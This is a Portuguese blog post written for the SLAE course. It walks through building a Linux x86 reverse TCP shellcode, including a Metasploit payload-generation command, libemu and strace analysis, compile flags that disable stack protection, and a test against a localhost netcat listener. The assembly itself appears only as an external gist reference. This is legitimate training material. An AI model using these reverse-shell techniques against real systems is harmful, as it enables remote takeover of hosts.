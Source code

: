```yaml
---
layout: post
title: SLAE - 2nd Assignment - Shell Reverse TCP
date: '2013-03-20T00:40:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, hacking, reverse engineering, portuguese]
modified_time: '2013-06-06T22:44:21.128-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1069667985052517024
blogger_orig_url: http://www.hackingbits.com/2013/03/slae-2nd-assignment-shell-reverse-tcp.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind
TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/2nd.assignment)*.

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-833.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

##Segundo Exame

###Criar um shellcode de Shell Reverse TCP

- Executar um shell ao conectar no host reverso.
- Tornar fácil a configuração dos IP e porta.

Como material, analisar o linux/x86/shell_reverse_tcp do Metasploit usando o libemu.

##libemu - sctest - strace - man

Comecei gerando o fluxograma do shellcode do Metasploit.

{% highlight console %}
$ msfpayload linux/x86/shell_reverse_tcp LHOST=127.0.0.1 R | /opt/libemu/bin/sctest -Ss 100000 -vvv -G shell_reverse_tcp_metasploit.dot

$ dot shell_reverse_tcp_metasploit.dot -T png -o shell_reverse_tcp_metasploit.png
{% endhighlight %}

{% include image.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp_metasploit.png" desc="Fluxograma do shell_reverse_tcp_metasploit" %}

Vê-se que, diferentemente dos shell_bind_tcp nos quais trabalhamos nos posts
anteriores, o shell_reverse_tcp, logo após a criação do socket (socket), faz a
duplicação (dup2) dos files descriptors e já efetua a conexão (connect) nos
endereço e porta definidos para finalmente executar (execve) o "/bin/sh".

Usei também o [strace](http://linux.die.net/man/1/strace) para analisar o
[netcat](http://linux.die.net/man/1/nc), como complemento ao libemu. O que me me
poupou tempo, pois não precisei reconstruir o binário para entender melhor a
syscall [connect](http://linux.die.net/man/3/connect); e nem é necessário
comentar que o uso do man deixou o meu .bash_history um pouquinho mais gordo. =D

{% highlight console %}
$ nc -l 127.0.0.1 55555
{% endhighlight %}

Em outro terminal.

{% highlight console %}

# strace -e socket,connect nc 127.0.0.1 55555
...
socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(55555), sin_addr=inet_addr("127.0.0.1")}, 16) = -1 EINPROGRESS (Operation now in progress)
{% endhighlight %}

Com as novas informações anotadas e revisadas, construí de primeira o shellcode
enxuto em assembly nasm.

{% gist geyslan/5201682 %}

Por conta da possibilidade trivial de se configurar a porta e o IP, o shellcode
só estará livre de null-bytes caso esses valores não tenham numeração em hexa
x00. Entretanto, se o null-byte realmente impossibilitar a utilização do
shellcode, temos outras maneiras de darmos bypass. Em próximos posts veremos
isso.

O shellcode final teve um aumento de 4 bytes, ficando com  72 (metasploit = 68).
Esse acréscimo se deu pela propriedade da configuração do IP e da Porta nos seus
primeiros bytes. Mesmo com as instruções diferentes, o resultado foi igual.
Vejam.

{% include image.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp.png" desc="Fluxograma do shell_reverse_tcp" %}

###Testando

{% highlight console %}
$ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

*Terminal host*
{% highlight console %}
$ nc -l 127.1.1.1 55555
{% endhighlight %}

*Terminal cliente*
{% highlight console %}
$ ./shellcode
{% endhighlight %}

*Terminal host novamente*
{% highlight console %}
$ netstat -anp | grep shell
tcp        0      0 127.0.0.1:51600   127.1.1.1:55555   ESTABLISHED   976/shellcode
{% endhighlight %}

##Reversing (Gotcha)

Mais um shellcode construído: Shell Reverse TCP (Linux/x86) com IP e porta
facilmente configuráveis (segundo ao quinto e nono ao décimo byte,
respectivamente).

*P.S.* Se você encontrar alguma forma de reduzir a quantidade de bytes do
shellcode apresentado, entre em contato para discutirmos. Com todo prazer,
farei as alterações colocando os devidos créditos.

*[]*

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[libemu](http://libemu.carnivore.it/)<br>
[Metasploit](http://www.metasploit.com/)<br>
[Metasploit Unleashed - Offensive Security](http://www.offensive-security.com/metasploit-unleashed/Main_Page)<br>
[Berkeley Sockets](https://en.wikipedia.org/wiki/Berkeley_sockets)<br>
[Shell-Storm](http://www.shell-storm.org/)<br>
[exploit-db](http://www.exploit-db.com/)<br>
[Project Shellcode](http://www.projectshellcode.com/)<br>
[Endianness](https://en.wikipedia.org/wiki/Endianness)<br>
[Linux Assembly](http://asm.sourceforge.net/)<br>
[Introdução à Arquitetura de Computadores - bugseq team - Tiago Natel (i4k)](https://code.google.com/p/bugsec/wiki/AssemblyArqComp)<br>
[Construindo Shellcodes - Victor Mello (m0nad)](http://0fx66.com/files/zines/cogumelo-binario/edicoes/1/ConstruindoShellcodes.txt)<br>
[Understanding Intel Instruction Sizes - William Swanson](http://www.swansontec.com/sintel.html)<br>
[The Art of Picking Intel Registers - William Swanson](http://www.swansontec.com/sregisters.html)<br>
[Smashing The Stack For Fun And Profit - Aleph One](http://insecure.org/stf/smashstack.html)<br>
[Get all shellcode on binary - commandlinefu](http://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)<br>
